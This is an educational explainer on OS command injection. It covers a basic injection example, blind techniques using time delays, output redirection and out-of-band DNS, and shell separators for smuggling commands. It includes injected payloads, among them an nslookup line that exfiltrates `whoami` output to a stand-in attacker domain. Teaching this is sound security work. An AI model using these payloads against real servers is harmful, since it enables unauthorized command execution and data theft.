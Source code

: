 ### What is an  OS command injection ?

It is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running the application, typically compromise the application and all its data.

### Executing arbitrary commands - 

Consider a web shop that lets user view the details of a product through the following URL - 

```html
https://insecure-website.com/productDetails?pid=29
```

The application might be using this `pid` value to get the results. For this, there might be a shell command to which this `pid` value is being supplied to.

```shell
$ getprodDetails 29
```

If the `pid` value is not sanitised correctly, it might give rise to `OS command injection`. The attacker can exploit this through the following URL - 

```html
https://insecure-website.com/productDetails?pid=& echo Hello & 29
```

The shell command will be - 

```shell
$ getprodDetails & echo Hello & 29
```

The server will now execute 3 commands - 

```shell
$ getprodDetails
```

```shell
$ echo Hello
```

```shell
$ 29
```

The output of the commands will be - 

```shell
ERROR: pid not given
Hello
29: command not found
```

The attacker is able to run `echo Hello` on the server.

### Blind command injection vulnerabilities - 

Many instances of OS command injection are blind vulnerabilities. 

This means that the application does not return the output from the command within its HTTP response. 

Blind vulnerabilities can still be exploited, but different techniques are required.

- **Detecting blind command injection using time delays** - You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond.
- **Exploiting blind command injection by redirecting output** - You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. Example - `& whoami > /var/www/static/whoami.txt &`
- **Exploiting blind command injection using out-of-band (OAST) techniques** - You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. Example - `& nslookup kgji2ohoyw.web-attacker.com &`. The out-of-band channel also provides an easy way to exfiltrate the output from injected commands - `& nslookup [backtick]whoami[backtick].kgji2ohoyw.web-attacker.com &`.

### Ways of injecting OS commands - 

- The following command separators work on both Windows and Unix-based systems: `&, &&, |, ||`.
- The following command separators work only on Unix-based systems: `;, 0x0a,\n`.
- On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command: 
	- \`injected command\`.
	- $(injected command)
- Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

